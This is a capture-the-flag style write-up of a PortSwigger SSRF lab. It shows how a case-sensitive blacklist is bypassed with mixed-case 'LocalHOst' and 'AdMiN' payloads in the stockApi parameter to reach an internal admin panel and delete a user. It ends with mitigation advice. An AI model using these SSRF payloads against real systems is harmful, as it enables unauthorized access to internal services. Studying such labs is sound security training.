







<p align="center">
  
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:



---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> The `check stock` function makes a request to the resource `stock.weliketoshop.net:8080` using the route `/product/stock/check`, which executes the function to check the
> availability of the product (`productId`) in the selected location (`storeId`).

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:



> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:



> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:





> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this lab you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:


> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources in principle by isolating the network.
